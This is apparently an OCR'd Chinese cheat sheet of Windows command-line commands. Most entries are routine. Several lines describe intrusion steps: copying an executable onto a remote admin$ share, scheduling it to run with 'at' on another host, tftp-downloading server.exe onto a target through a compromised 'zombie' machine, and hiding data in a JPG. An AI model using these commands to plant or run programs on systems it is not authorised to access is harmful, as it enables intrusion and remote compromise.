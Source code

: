 ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息

tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)

kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内) del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件 del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）

move 盘符\路径\要移动的文件名 存放移动文件的路径\移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖 fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令

 

at id号 开启已注册的某个计划任务

at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止

at id号 /delete 停止某个已注册的计划任务

at 查看所有的计划任务

at \\ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机

finger username @host 查看最近有哪些用户登陆 telnet ip 端口 远和登陆服务器,默认端口为23 open ip 连接到IP（属telnet登陆后的命令） telnet 在本机上直接键入

telnet 将进入本机的telnet copy 路径\文件名1 路径\文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件 copy c:\srv.exe $">\\ip\admin$ 复制本地c:\srv.exe到对方的admin下 cppy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

copy $\svv.exe">\\ip\admin$\svv.exe c:\ 或:copy\\ip\admin$\*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

xcopy 要复制的文件或目录树 目标地址\目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:\server.exe 登陆后，将“IP”的server.exe下载到目标主机c:\server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送 tftp -i 对方IP put c:\server.exe 登陆后，上传本地c:\server.exe至主机

ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时) route print显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway

addres，接口地址

Interface arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。

arp -a将显示出全部信息 start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令 mem 查看cpu使用情况

attrib 文件名(目录名) 查看某文件（目录）的属性

attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性

dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间 date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间

set 指定环境变量名称=要指派给变量的字符 设置环境变量 set 显示当前所有的环境变量 set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量

pause 暂停批处理程序，并显示出：请按任意键继续.... if 在批处理程序中执行条件处理（更多说明见if命令及变量） goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）

call 路径\批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?） for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量） echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置 echo 信息 在屏幕上显示出信息 echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中 findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello find 文件名 查找某文件
